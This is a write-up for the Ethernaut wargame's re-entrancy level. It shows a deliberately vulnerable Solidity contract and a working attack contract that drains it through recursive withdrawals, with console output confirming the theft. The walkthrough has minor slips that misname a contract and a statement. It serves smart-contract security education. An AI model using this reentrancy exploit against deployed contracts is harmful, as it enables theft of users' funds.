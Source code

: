 # Level 10: Re-entrancy

This is the level 10 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- Solidity contract [receive](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity/81995) function
- [call](https://docs.soliditylang.org/en/v0.6.0/types.html#address) method of addresses
- [Re-entrancy Attack](https://consensys.github.io/smart-contract-best-practices/known_attacks/) on Ethereum

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

`player` has to steal all of the contract's funds.

To those interested, the Re-entrancy attack was responsible for the [infamous DAO hack of 2016](https://www.gemini.com/cryptopedia/the-dao-hack-makerdao#section-what-is-a-dao) which shook the whole Ethereum community. $60 million dollars of funds were stolen. Later, Ethereum blockchain was hard forked to restore stolen funds, but not all parties consented to decision. That led to splitting of network into distinct chains - Ethereum and Ethereum Classic.

First let's see amount stored in `Reentrace`:
```javascript
await getBalance(contract.address)

// Output: '0.001'
```

which is `0.001` ether or `1000000000000000` wei.

We're going to attack `Reentrance` with our written contract `ReentranceAttack`. Deploy it with target contract (`Reentrance`) address:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function donateAndWithdraw() public payable {
        require(msg.value >= targetValue);
        targetContract.donate.value(msg.value)(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "my money!!");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call.value(totalBalance)("");
        require(sent, "Failed to send Ether");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```

Now call `donateAndWithdraw` of `ReentranceAttack` with value of `1000000000000000` (`0.001` ether) and chain reaction starts:
- First `targetContract.donate.value(msg.value)(address(this))` causes the `balances[msg.sender]` of `Reentrance` to set to sent amount. `donate` of `Reentrance` finishes it's execution
- Immediately after, `targetContract.withdraw(msg.value)` invokes withdraw of `Reentrance`, which sends the same donated amount back to `ReentranceAttack`.
- `receive` of `ReentranceAttack` is invoked. Note that `withdraw` hasn't finished execution yet! So still `balances[msg.sender]` is equal to initially donated amount. Now we call `withdraw` of `ReentranceAttack` again in receive.
- Second invocation of `withdraw` executes and it's passes the `require` statement this time again! So, it sends the `msg.sender` (`ReentranceAttack` address) that amount again!
- Simple arithmetic plays out and recursive execution is halted only when balance of `Reentrance` is reduced to 0.

And for the final blow withdraw stolen amount currently stored in `ReentranceAttack` to `player` address by calling `withdrawAll`.

Verify by checking `Reentrance`'s balance:
```javascript
await getBalance(contract.address)

// Output: '0'
```

Hacked!

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

